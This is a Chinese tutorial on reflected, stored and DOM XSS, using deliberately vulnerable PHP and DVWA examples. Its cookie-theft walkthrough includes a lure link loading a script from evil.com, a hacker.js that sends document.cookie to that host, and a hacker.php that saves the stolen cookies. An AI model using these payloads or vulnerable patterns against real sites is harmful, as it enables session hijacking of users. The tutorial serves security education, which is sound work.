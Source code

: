 存储型 XSS 的数据流向是：浏览器 -> 后端 -> 数据库 -> 后端 -> 浏览器。

DOM-XSS 的数据流向是：URL-->浏览器 
### 反射型XSS ###
反射型XSS也被称为非持久性XSS。当用户访问一个带有XSS代码的URL请求时，服务器端接收数据后处理，然后把带有XSS代码的数据发送到浏览器，浏览器解析这段带有XSS代码的数据后，最终造成XSS漏洞。eg：

**index.php**
```php
<?php
    $user_name = $_GET["username"];
    echo $user_name;
?>
```
在上述代码中，index.php接收`username`值后再输出，若提交`index.php?username=HIM`，则程序将输出HIM，若恶意用户输入`index.php?username=<script>XSS恶意代码<script/>`，将会造成反射型攻击。

有人会问，我怎么可能自己去把HIM改成可以执行的恶意代码呢?这不是自己坑自己吗，但是一种情况是别人可能修改HIM为恶意代码，然后将这个恶意的URL发送给你。反射型XSS盗取用户cookie的过程如下：

- 假设网站A存在XSS漏洞，发送可以触发该漏洞的特定代码到网站A上的目标用户HIM
恶意链接构造如下：
```html
<a href = "http://www.foo.com/xss/xss.php?username=<script src = http://www.evil.com/xss/hacker.js />凤姐最新性感视频</a>
```
其中，`www.foo.com/xss/xss.php?username=` 是存在漏洞的网站A，执行盗取cookie操作的文件位于黑客的网站B，B网站主要有两个文件 `hacker.js`和 `hacker.php`。

hacker.js
```js
var img = new Image();
img.src = "http://www.evil.com/xss/hacker.php?username=" + document.cookie;
document.body.append(img);
```
hacker.php
```php
<?php
$cookie = $_GET['username'];
var_dump($cookie);
$myFile = "cookie.txt";
file_put_contents($myFile, $cookie);
?>
```
- 当用户点击了(凤姐最新性感视频)链接后，被攻击目标HIM用户在网站A的cookie将被黑客拿到，存到网站B的cookie.txt文件中。

**DVWA---XSS(Reflected)**
（1）LOW
SOURCE:
```php
<?php
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
?> 
```
漏洞源于，对于接受用户数据的`name`参数没有进行过滤直接在网页中输出。
